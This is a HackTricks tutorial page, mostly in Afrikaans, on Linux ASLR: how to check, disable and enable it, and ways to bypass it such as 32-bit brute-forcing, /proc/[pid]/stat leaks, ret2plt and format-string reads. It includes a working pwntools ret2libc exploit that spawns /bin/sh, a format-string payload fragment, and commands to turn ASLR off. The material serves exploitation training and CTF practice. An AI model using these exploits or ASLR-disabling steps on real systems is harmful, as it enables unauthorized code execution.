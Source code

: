 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

**Address Space Layout Randomization (ASLR)** is 'n sekuriteitstegniek wat in bedryfstelsels gebruik word om die **geheue adresse** wat deur stelsels en toepassingsprosesse gebruik word, te **randomiseer**. Deur dit te doen, maak dit dit aansienlik moeiliker vir 'n aanvaller om die ligging van spesifieke prosesse en data, soos die stapel, hoop en biblioteke, te voorspel, wat sekere tipes eksploit te verminder, veral buffer oorgeloop.

### **Kontroleer ASLR Status**

Om die ASLR-status op 'n Linux-stelsel te **kontroleer**, kan jy die waarde uit die `/proc/sys/kernel/randomize_va_space`-lêer lees. Die waarde wat in hierdie lêer gestoor is, bepaal die tipe ASLR wat toegepas word:

* **0**: Geen randomisering. Alles is staties.
* **1**: Konserwatiewe randomisering. Gedeelde biblioteke, stapel, mmap(), VDSO-bladsy is gerandomiseer.
* **2**: Volledige randomisering. Benewens elemente wat deur konserwatiewe randomisering gerandomiseer is, is geheue wat deur `brk()` bestuur word, gerandomiseer.

Jy kan die ASLR-status met die volgende opdrag kontroleer:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktiveer ASLR**

Om ASLR te **deaktiveer**, stel jy die waarde van `/proc/sys/kernel/randomize_va_space` op **0**. Dit is oor die algemeen nie aanbeveel om ASLR te deaktiveer buite toets- of foutopsporingstoestande nie. Hier is hoe jy dit kan deaktiveer:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
U kan ASLR ook vir 'n uitvoering deaktiveer met:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivering van ASLR**

Om ASLR te **aktiver**, kan jy 'n waarde van **2** na die `/proc/sys/kernel/randomize_va_space` lêer skryf. Dit vereis gewoonlik wortelregte. Volledige randomisering kan gedoen word met die volgende opdrag:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Volharding Oor Herlaaiings**

Veranderings gemaak met die `echo` opdragte is tydelik en sal teruggestel word by herlaai. Om die verandering volhardend te maak, moet jy die `/etc/sysctl.conf` lêer wysig en die volgende lyn byvoeg of aanpas:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Na die redigering van `/etc/sysctl.conf`, pas die veranderinge toe met:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX verdeel die prosesadresruimte in **3 groepe**:

* **Kode en data** (geïnisialiseerde en nie-geïnisialiseerde): `.text`, `.data`, en `.bss` —> **16 bits** entropie in die `delta_exec` veranderlike. Hierdie veranderlike word ewekansig geïnitialiseer met elke proses en bygevoeg tot die aanvanklike adresse.
* **Geheue** toegeken deur `mmap()` en **gedeelde biblioteke** —> **16 bits**, genoem `delta_mmap`.
* **Die stapel** —> **24 bits**, verwys as `delta_stack`. Dit gebruik egter effektief **11 bits** (van die 10de tot die 20ste byte insluitend), uitgelijn op **16 bytes** —> Dit lei tot **524,288 moontlike werklike stapeladresse**.

Die vorige data is vir 32-bis stelsels en die verminderde finale entropie maak dit moontlik om ASLR te omseil deur die uitvoering herhaaldelik te probeer totdat die eksploitasie suksesvol voltooi word.

#### Brute-force idees:

* As jy 'n groot genoeg oorgang het om 'n **groot NOP-slee voor die shellcode** te huisves, kan jy eenvoudig adresse in die stapel brute-force totdat die vloei **oor 'n deel van die NOP-slee spring**.
* 'n Ander opsie hiervoor, in die geval die oorgang nie so groot is nie en die eksploitasie plaaslik uitgevoer kan word, is om **die NOP-slee en shellcode in 'n omgewingsveranderlike** by te voeg.
* As die eksploitasie plaaslik is, kan jy probeer om die basisadres van libc te brute-force (nuttig vir 32-bis stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* As jy 'n afstandsbediening bediener aanval, kan jy probeer om die **adres van die `libc` funksie `usleep` te brute-force**, met 10 (byvoorbeeld) as argument. As die **bediener op 'n stadium 10s ekstra neem om te antwoord**, het jy die adres van hierdie funksie gevind.

{% hint style="success" %}
In 64-bit stelsels is die entropie baie hoër en dit is nie moontlik nie.
{% endhint %}

### Plaaslike Inligting (`/proc/[pid]/stat`)

Die lêer **`/proc/[pid]/stat`** van 'n proses is altyd deur almal leesbaar en dit **bevat interessante** inligting soos:

* **startcode** & **endcode**: Adresse bo en onder met die **TEKS** van die binêre
* **startstack**: Die adres van die begin van die **stapel**
* **start\_data** & **end\_data**: Adresse bo en onder waar die **BSS** is
* **kstkesp** & **kstkeip**: Huidige **ESP** en **EIP** adresse
* **arg\_start** & **arg\_end**: Adresse bo en onder waar **cli argumente** is.
* **env\_start** &**env\_end**: Adresse bo en onder waar **omgewing veranderlikes** is.

Daarom, as die aanvaller op dieselfde rekenaar is as die binêre wat uitgebuit word en hierdie binêre nie die oorgang van ru-argumente verwag nie, maar van 'n ander **invoer wat na die lees van hierdie lêer saamgestel kan word**. Dit is moontlik vir 'n aanvaller om **'n paar adresse uit hierdie lêer te kry en offsets daaruit vir die uitbuiting te konstrueer**.

{% hint style="success" %}
Vir meer inligting oor hierdie lêer, kyk na [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) en soek vir `/proc/pid/stat`
{% endhint %}

### Om 'n lek te hê

* **Die uitdaging is om 'n lek te gee**

As jy 'n lek gegee word (maklike CTF-uitdagings), kan jy offsets daaruit bereken (veronderstel byvoorbeeld dat jy die presiese libc weergawe weet wat in die stelsel wat jy aan die aanval is, gebruik word). Hierdie voorbeeld uitbuiting is uit die [**voorbeeld hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (kyk na daardie bladsy vir meer besonderhede):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Deur 'n buffer overflow te misbruik, sal dit moontlik wees om 'n **ret2plt** te exploiteer om 'n adres van 'n funksie uit die libc te exfiltreer. Kyk:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Net soos in ret2plt, as jy 'n arbitrêre lees via 'n formaat string kwesbaarheid het, is dit moontlik om die adres van 'n **libc funksie** uit die GOT te exfiltreer. Die volgende [**voorbeeld is van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Probeer om ASLR te omseil deur adresse binne die stapel te misbruik:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

